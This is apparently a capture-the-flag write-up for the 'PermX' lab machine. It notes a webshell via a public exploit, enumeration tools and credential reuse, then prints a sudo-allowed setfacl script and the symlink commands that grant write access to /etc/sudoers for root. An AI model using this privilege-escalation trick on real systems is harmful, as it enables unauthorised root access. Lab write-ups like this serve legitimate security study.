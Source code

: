 # PermX \[Easy]

Found the vhost this time, got the public exploit and landed on a webshell. Transfer LinPeas and LinEnum to see cheeky results, learn how to read this stuff

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

User passwd for mtz, ssh w these credentials for user.txt

sudo -l shows us a acl.sh script which can be run

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

The last line mentions the command its trying to execute which is to change perms on any file in /home/mtz as long as root is not involved

```
ln -s /etc/sudoers helpfile
sudo /opt/acl.sh mtz rw /home/mtz/helpfile
```

We made a **symbolic link to sudoers list** and added our username to it and gave rw perms as shown in last ss for root.txt
